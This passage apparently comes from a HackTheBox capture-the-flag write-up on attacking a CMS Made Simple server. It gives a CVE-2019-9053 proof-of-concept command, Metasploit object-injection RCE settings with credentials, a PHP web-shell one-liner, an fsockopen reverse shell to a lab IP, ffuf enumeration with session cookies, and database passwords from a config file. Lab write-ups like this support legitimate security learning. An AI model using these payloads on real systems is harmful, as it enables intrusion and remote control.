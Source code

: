 The above command tries a single character and should have a delay of around
2s on success.

The available POC should iterate and give username / salt /etc:

```bash
python2.7 -i www/cve-2019-9053.py -u http://10.10.11.119/admin_cms_panel --crack -w /usr/share/wordlists/passwords/rockyou-50.txt
# [+] Salt for password found: qRe$0
# [+] Username found: 6LebYklgmw938.q173e14sukhkSB24ph9h
# [+] Email found: Fvi
# [+] Password found: F33ir
```

But it just returns BS.

### Object Injection RCE

There's yet another exploit for version `2.2.8`, from [Rapid7][cmsms-exploit]. It is
integrated into Metasploit as a module:

```bash
use exploit/multi/http/cmsms_object_injection_rce
set rhosts 10.10.11.119
set targeturi admin_cms_panel/
set username editor
set password alpha!@#$%bravo
```

### User Defined Tags

```php
<?php if(isset($_REQUEST[chr(99)]))system($_GET[chr(99)]); ?>
$sock=fsockopen("10.10.14.10",9999);exec("/bin/sh -i <&3 >&3 2>&3");
```

### Enumeration

```bash
ffuf -c -u 'http://10.10.11.119/admin_cms_panel/admin/FUZZ' \
    -w '/usr/share/wordlists/discovery/raft-medium-words.txt' \
    -b $'b302911aed6517744ab012cf13b55692d6d547f3=8a29964a011a22b311488aca3a644cd1bf181a05%3A%3AeyJ1aWQiOjMsInVzZXJuYW1lIjoiZWRpdG9yICIsImVmZl91aWQiOm51bGwsImVmZl91c2VybmFtZSI6bnVsbCwiaGFzaCI6IiQyeSQxMCQwb2VXcGlkUzE0OGsuM2hTWXc1WlMuQ2wxQnE1cllsNEtDdGM3MXp5M0tOUUZKMlRPN0E3aSJ9; __c=80325170653ded02996; auth=A54aWjWWqj93DBpOuslsPwAAAAAAAAAA; CMSSESSIDf25decdf38ae=rcli3spa091baa9gtfjpgfkpd0'
```

Enumerate CMS admin panel.  U will find a subdomain.

i used metasploit: exploit/multi/http/cmsms_object_injection_rce

## www-data to developer

In `/var/www/html/config/db.php`:

```php
#define('DB_Server', 'localhost');
#define('DB_Username', 'root');
#define('DB_Password','root');
#define('DB_Name', 'Overflow');

$lnk = mysqli_connect("localhost","developer", "sh@tim@n","Overflow");
$db = mysqli_select_db($lnk,"Overflow");

if($db == false){
    dir('Cannot Connect to Database');
}
```


[author-profile]: https://app.hackthebox.com/users/172213
[blog-posts]: images/screenshots/blog-posts.png
[cmsms-version]: images/screenshots/cmsms-version.png
[cmsms-exploit]: https://www.rapid7.com/db/modules/exploit/multi/http/cmsms_object_injection_rce/
[cve-2019-9053]: https://www.exploit-db.com/exploits/46635
[cve-2019-9060]: https://nvd.nist.gov/vuln/detail/CVE-2019-9060
[user-profile]: images/screenshots/profile.png